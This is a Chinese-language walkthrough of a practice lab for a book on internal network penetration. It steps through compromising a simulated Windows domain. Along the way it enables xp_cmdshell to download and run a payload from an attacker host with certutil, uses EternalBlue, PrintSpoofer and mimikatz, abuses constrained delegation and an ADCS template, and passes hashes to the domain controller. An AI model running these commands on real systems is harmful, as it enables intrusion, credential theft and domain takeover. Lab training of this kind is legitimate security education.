# 《内网渗透体系建设》简易教学练习环境WP

By WHOAMI、Venenof7

## Web01

部署好全部虚拟机后，首先扫描本地存活主机，以发现 Web01 的地址：

```
./fscan.exe -np -h 192.168.162.1/24
# 因为 Web01 开了防火墙，所以需要指定 -np 禁止 ping
```



先访问 80 端口：



1433 端口上存在 SQL Server 弱口令，用sa/123456即可成功登录。然后通过 xp_cmdshell 执行系统命令即可：

```sql
/* 判断当前是否为 DBA 权限，返回 1 则可以提权 */
SELECT IS_SRVROLEMEMBER('sysadmin');

/* 查看是否存在 xp_cmdshell，返回 1 则存在 */
SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell'

/* 开启 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

/* 执行系统命令 */
EXEC master.dbo.xp_cmdshell 'cd C:\Users\Public & certutil -urlcache -split -f http://192.168.162.130:8080/she1l.exe';

EXEC master.dbo.xp_cmdshell 'C:\Users\Public\she1l.exe'
```

成功上线 Web01 这台服务器：



由于此时是服务账户权限，我们可以通过 Windows 令牌操纵技术获取 System 权限。上传 PrintSpoofer.exe，然后执行以下命令即可提升至系统权限：

```
PrintSpoofer.exe -i -c cmd
```



## 内网存活扫描

我们发现一个内网网段 172.22.10.1/24：


上传 fscan 扫描内网：





发现内网存活的主机，并且存在域环境，域名为 aerospace.local，域控制器为 DC01.aerospace.local，IP 为 172.22.10.11。

此外，还存在 ADCS，证书颁发机构为 CA.aerospace.local。

## WIN-PC8086

WIN-PC8086 这台域成员机器存在 MS17_010 漏洞，ip为 172.22.10.36，使用 msf 挂上代理，用 bind_tcp 类型的 payload 直接打：

```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhosts 172.22.10.36
set lport 4444
run
```

成功获取 SYSTEM 权限：



由于这台机器位于域内，因此我们可以用他的机器账户收集域内信息。加载 kiwi 模块，抓取 WIN-PC8086 计算机账户的哈希值：

```
load kiwi
kiwi_cmd "sekurlsa::logonpasswords"
```



然后，使用 [Impacket](https://github.com/fortra/impacket) 套件中的 findDelegation.py 枚举域内委派关系：

```bash
python3 findDelegation.py aerospace.local/WIN-PC8086\$ -hashes :b237d77097aeca12476045a167ac1e1d -dc-ip 172.22.10.11
```



发现当前的 WIN-PC8086 机器对域内 WIN-PC8098 这台机器的 HOST 和 CIFS 服务具有约束委派权限，因此可以通过约束委派获取 WIN-PC8098 的权限。

## WIN-PC8098

我们使用 [Impacket](https://github.com/fortra/impacket) 套件中的 getST.py 脚本进行约束委派攻击。执行以下命令，使用 WIN-PC8086 账户代表域管理员用户 Administrator 获取 WIN-PC8098 机器上 CIFS 服务的票据：

```bash
python3 getST.py aerospace.local/WIN-PC8086\$ -hashes :b237d77097aeca12476045a167ac1e1d -spn CIFS/WIN-PC8098.aerospace.local -impersonate Administrator -dc-ip 172.22.10.11
```



成功申请到票据后，通过设置环境变量 `KRB5CCNAME` 来使用该票据，并通过 wmiexec.py 获取 WIN-PC8098 机器的最高权限：

```bash
export KRB5CCNAME='Administrator@CIFS_WIN-PC8098.aerospace.local@AEROSPACE.LOCAL.ccache'
python3 wmiexec.py -k aerospace.local/Administrator@WIN-PC8098.aerospace.local -no-pass -dc-ip 172.22.10.11
```



在 WIN-PC8098 机器上发现了一个域用户 liuyuhua 的进程：



然后考虑上传 mimikatz 抓取该用户的哈希值。由于该机器开启了 Windows defender，可以考虑新建一个管理员用户登录到远程桌面，然后将 Windows defender 关闭后在运行 mimikatz。

抓取到 liuyuhua 的哈希值为 2c8e4ec4d8a61869d85c7921c6076dfd：



## DC01

由于环境中存在 ADCS 服务，因此考虑通过 [Certify](https://github.com/GhostPack/Certify) 枚举错误配置。还是在 WIN-PC8098 机器上，，然后执行以下命令：

```
Certify.exe find /vulnerable
```



发现一个名为 AeroUser 的证书模板，开启了 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志，并且所有的域用户账户都有注册权限。那么我们可以以域内任何用户的身份请求证书，包括域管理员用户或域控制器的机器账户，并使用该证书获取合法用户的 TGT，一次实现域权限提升。

执行以下命令，通过 [Certipy](https://github.com/ly4k/Certipy) 工具为域管理员用户申请证书：

```bash
certipy-ad req -username liuyuhua@aerospace.local -hashes :2c8e4ec4d8a61869d85c7921c6076dfd -ca aerospace-CA-CA -target CA.aerospace.local -template AeroUser -upn Administrator@aerospace.local -dns DC01.aerospace.local -debug
```



申请到了名为 administrator_dc01.pfx 的证书，然后执行以下命令，通过该证书进行 kerberos 身份验证，可以成功拿到域管理员用户的 TGT 票据和 NTLM 哈希：

```bash
certipy-ad auth -pfx administrator_dc01.pfx -dc-ip 172.22.10.11
```



可以看到，已经成功拿到了域管理员的 NTLM 哈希，接下来直接哈希传递即可获取域控制器权限了：

```BASH
python3 wmiexec.py aerospace.local/Administrator@dc01.aerospace.local -hashes aad3b435b51404eeaad3b435b51404ee:4e4b335d557d9c79bc419490672102b2 -dc-ip 172.22.10.11
```



## CA

同样是哈希传递，可以获取 CA 的权限：

```
python3 wmiexec.py aerospace.local/Administrator@ca.aerospace.local -hashes aad3b435b51404eeaad3b435b51404ee:4e4b335d557d9c79bc419490672102b2 -dc-ip 172.22.10.11
```


